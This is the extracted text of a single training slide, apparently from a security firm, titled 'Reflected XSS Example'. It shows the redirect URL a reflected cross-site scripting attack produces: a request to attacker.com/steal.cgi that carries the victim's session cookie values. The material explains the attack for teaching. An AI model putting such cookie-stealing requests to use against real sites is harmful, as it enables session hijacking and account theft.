

# Reflected XSS Example
Actual redirect request looks like the following:

http://attacker.com/steal.cgi?lubid=010000508BD3046103F43B8264530098C20100000000;%20p_uniqid=8sJgk9daas7WUMxV0B;%20gv_titan_20=5901=1019511286
15
Aujas Confidential